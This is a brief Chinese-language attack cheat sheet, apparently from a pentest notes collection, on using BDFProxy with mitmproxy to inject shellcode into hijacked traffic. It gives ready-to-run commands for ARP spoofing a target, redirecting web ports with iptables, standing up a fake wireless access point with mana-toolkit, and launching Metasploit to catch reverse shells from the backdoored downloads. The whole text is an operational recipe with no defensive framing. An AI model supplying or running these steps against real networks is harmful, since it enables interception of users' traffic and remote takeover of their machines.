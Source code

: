 

# Bdfproxy（mitmproxy）

* 描述
> 基于流量劫持动态注入 shellcode（ARP spoof、DNS spoof、Fake AP）



* 操作
``` 
// shell
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A PREROUTING -p tcp --dport 80/443 -j REDIRECT --to-ports 8080
vi /etc/bdfproxy/bdfproxy.cfg
    // 修改
    proxyMode = transparent
    //修改侦听IP地址并启动bdfproxy
arpspoof -i eth0 -t 1.1.1.2   1.1.1.1
启动 MSF
```



* Mana 创建 Fack AP
``` 
apt-get  install  mana-toolkit
vi /etc/mana-toolkit/hostapd-mana.conf
    // 修改无线 SSID 名称
./usr/share/mana-toolkit/run-mana/start-nat-simple.sh
    // 修改 waln1 无线网卡适配器并启动
    iptables -t nat -A PREROUTING -i $phy -p tcp --dport 80/443 -j REDIRECT --to-port 8080
vi /etc/bdfproxy/bdfproxy.cfg
    proxyMode = transparent
    //  修改侦听IP地址并启动bdfproxy
//启动msf
msfconsole -r /usr/share/bdfproxy/bdfproxy_msf_resource.rc

```
* Bdfproxy 代理注入代码
* Msf 侦听反弹 shell